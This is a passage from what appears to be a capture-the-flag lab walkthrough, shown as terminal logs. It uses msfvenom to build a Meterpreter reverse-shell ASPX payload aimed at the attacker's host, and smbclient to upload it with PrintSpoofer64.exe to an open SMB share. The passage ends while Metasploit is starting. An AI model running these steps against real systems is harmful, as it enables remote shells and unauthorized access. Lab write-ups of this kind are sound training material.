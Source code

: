 ```bash
2025-05-29 19:30:30 (37.4 MB/s) - \u2018PrintSpoofer64.exe\u2019 saved [27136/27136]

root@ip-10-10-99-136:~# msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.99.136 LPORT=8910 -f aspx -o shelly.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 203846 bytes
Final size of aspx file: 1030521 bytes
Saved as: shelly.aspx
root@ip-10-10-99-136:~# 
```

Once these are available on the attack box, return to the `smbclient` and push them both to the nt4wrksv folder.

```bash
root@ip-10-10-99-136:~# smbclient //10.10.172.27/nt4wrksv//
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> put shelly.aspx
putting file shelly.aspx as \shelly.aspx (111817.5 kb/s) (average 111818.7 kb/s)
smb: \> put PrintSpoofer64.exe
putting file PrintSpoofer64.exe as \PrintSpoofer64.exe (563.8 kb/s) (average 18444.1 kb/s)
smb: \> ls
  .                                   D        0  Thu May 29 19:47:47 2025
  ..                                  D        0  Thu May 29 19:47:47 2025
  passwords.txt                       A       98  Sat Jul 25 16:15:33 2020
  PrintSpoofer64.exe                  A    27136  Thu May 29 19:47:47 2025
  shelly.aspx                         A  1030521  Thu May 29 19:47:24 2025

		7735807 blocks of size 4096. 5136685 blocks available
smb: \> quit
root@ip-10-10-99-136:~# 
```

Once the deliveries are placed, it is time to prep the `Metasploit` environment.

```bash
root@ip-10-10-99-136:~# msfconsole
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
Metasploit tip: View a module's description using info, or the enhanced 
version in your browser with info -d
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
```